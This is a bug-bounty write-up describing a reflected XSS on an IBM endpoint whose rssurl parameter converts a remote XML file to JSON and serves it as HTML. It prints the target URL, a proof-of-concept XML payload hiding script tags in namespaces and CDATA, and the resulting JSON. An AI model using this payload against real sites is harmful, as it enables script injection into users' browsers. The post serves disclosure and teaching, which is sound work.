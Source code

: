 ```yaml
---
title: " [IBM] XSS Reflected via xml files"
date: 2020-10-26T17:55:28+08:00
description: "simple writeup about XSS Reflected on ibm subdomain"
tags: ["bugbounty","security","webpentesting"]
type: post
weight: 25
showTableOfContents: true
---
```


Hello World :wave:
while I'm doing some bug hunting on IBM subdomains I decided instead of using subdomain enumeration I can get interesting endpoints and parameters from `waybackurls` to shorten the time, after reading the URLs from waybackurls I noticed a lot of endpoints that contain some URLs of XML files in `rssurl` parameter

```
https://www-356.ibm.com/partnerworld/wps/servlet/pwdyn/pw/rss/rsstojson.jsp?ccdb=no&rssurl=https://www-2000.ibm.com/file.xml&_=1596170198353
```


![ibm_xml](https://1.bp.blogspot.com/-7Dz0qMUTtE0/X5bYy8O2QfI/AAAAAAAAEYw/gioHZXy_lps0DyITLNrJhQFlaCXmV-GHwCLcBGAsYHQ/s1600/Screenshot_at_2020-08-09_18-52-24.png)

all this API endpoint do is read the XML from the URL and then return its value of it but in JSON, for the first time I thought there was an SSRF but after a lot of trying to bypass it, it doesn't work at all



![noway](https://media.tenor.com/RTdXxzgoQewAAAAC/chihuahua-basal.gif)


but from another side, I noticed that the response `Content-type` is `text/HTML` so I think I can do an xss here, the idea is I can make an XML file that contains the xss payload in one of the variables so after converting it to JSON it will be reflected in the page as an HTML code, like this `{"data": "<script>alert(123)</script>"}`

```XML
<html>
	<head></head>
	<body>
		<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
		<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(2)</a:script>
		<info>
		  <name>
		    <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
		  </name>
		    <description>
		      <value>Hello</value>
		    </description>
		    <url>
		      <value>http://google.com</value>
		    </url>
		</info>
	</body>
</html>
```


then upload the file to my site and pass the URL to the rssurl parameter



the file should be converted like this 

```JSON
{
  "html": {
    "head": "",
    "body": {
      "script": [
        "alert(1)",
        "alert(2)"
      ],
      "info": {
        "name": {
          "value": {
            "__cdata": "<script>confirm(document.domain)</script>"
          }
        },
        "description": {
          "value": "Hello"
        },
        "url": {
          "value": "http://google.com"
        }
      }
    }
  }
}
```
and boom


![xss_boom](https://1.bp.blogspot.com/-BHQh_JQb0Uc/X5bZv80_nnI/AAAAAAAAEY8/hn-Ok2MGjcca4ixkIZpeUgQ1kqCYH5OvwCLcBGAsYHQ/s1600/Screenshot_at_2020-08-09_18-54-51.png)






see ya :crossed_fingers: :heart:
